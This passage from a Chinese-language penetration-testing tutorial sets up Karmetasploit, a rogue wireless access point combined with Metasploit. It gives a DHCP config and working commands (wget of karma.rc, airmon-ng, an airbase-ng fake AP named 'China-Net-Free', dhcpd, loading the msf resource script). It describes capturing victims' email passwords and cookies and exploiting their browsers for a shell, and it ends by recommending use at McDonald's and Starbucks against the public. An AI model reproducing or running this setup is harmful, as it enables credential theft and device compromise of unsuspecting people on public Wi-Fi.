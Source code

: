 （新版本fasttrack中还加入了Autopwn Automation、Nmap Scripting Engine、Exploits、Payload Generator等新功能。）

脚本化的工具有时确实能减少很多工作时间，但是不能完全依赖于这类自动程度很高的工具，特别是在用这些工具搞不定目标的时候，手工测试的能力往往才是王道，细节决定成败。


## 十二．KARMERASPLOIT

Karmetasploit = Karma + Metasploit，也可以说成它是MSF的KARMA实现。

Karma和MSF一样也是使用ruby语言编写的，其功能是建立一个虚假的无线接入点，等待目标连接上钩。与MSF结合可实现更强大的功能。Karmetasploit集成了DNS,POP3，IMAP4，SMTP,FTP,SMB,HTTP等服务用于攻击，模块位于modules/auxiliary/server目录下。

基本配置：

需要的配置不多，首先需要配置一个DHCP服务为目标提供动态IP分配，配置文件：

```
option domain-name-servers 10.0.0.1;
default-lease-time 60;
max-lease-time 72;
ddns-update-style none;
authoritative;
log-facility local7;
subnet 10.0.0.0 netmask 255.255.255.0 {
range 10.0.0.100 10.0.0.254;
option routers 10.0.0.1;
option domain-name-servers 10.0.0.1;
}
```

将配置文件保存在/etc/dhcp3/dhcpd.conf

下一步下载karma  msf脚本：

```
wget http://www.offensive-security.com/downloads/karma.rc
#将网卡激活为监听模式：
airmon-ng start wlan0
#创建伪装接入点,-P 可被扫描到，-C 信号发射速率，-e 接入点名称（需要具有欺骗性），-v 指定网卡，mon0为上一步完成后生成的：
airbase-ng -P -C 30 -e "China-Net-Free" -v mon0
#此时会生成一个名为at0的新网卡接口。
#接着打开DHCP服务：
ifconfig at0 up 10.0.0.1 netmask 255.255.255.0
dhcpd3 -cf /etc/dhcp3/dhcpd.conf at0
#检查是否成功启动：
ps aux|grep dhcpd
tail -f /var/log/messages

#下一步加载karma脚本：
msf> resource karma.rc
```

等待收获：

当对方打开邮件客户端并登陆收取邮件，那么他的账户密码将被截获，因为他所连接的DNS和POP3都是虚假的。
当对方打开浏览器准备浏览网页时karma开始截取cookie，建立虚假email，DNS等服务，加载exploits来对付客户端浏览器，如果走运的话可以获取到shell。
总结：建议这招可以拿到麦当劳，星巴克用，效果更好。
